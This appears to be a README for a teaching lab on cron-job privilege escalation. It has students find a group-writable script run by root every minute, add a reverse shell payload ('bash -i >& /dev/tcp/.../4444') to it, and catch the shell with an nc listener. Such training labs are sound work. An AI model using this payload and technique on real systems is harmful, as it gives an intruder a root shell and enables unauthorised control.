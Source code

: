 ## Lab Setup 


# 1. Clone the repository
git clone https://github.com/iCxts/cronjoblab.git
cd cronjoblab

# 2. Run the setup script
sudo ./setup_cron.sh

# 3. Add the student user to the 'students' group
sudo usermod -aG students <student-username>


Lab Instructions (Student)
1. Inspect the cronjob configuration
cat /etc/cron.d/backup


You should see the following entry:

* * * * * root /bin/bash /opt/backup/task.sh >> /var/log/backup.log 2>&1


This means the script is executed every minute with root privileges.

2. Check script permissions
ls -l /opt/backup/task.sh


Example output:

-rw-rw-r-- 1 root students ... /opt/backup/task.sh


This confirms that the file is writable by the students group.

3. Modify the script to gain control

Edit /opt/backup/task.sh and change the student area to include a reverse shell payload.

Example 

bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1


Replace <your-ip-address> with your attack machine’s IP.

4. Start a listener

On your own (attacker) machine:

nc -nvlp 4444



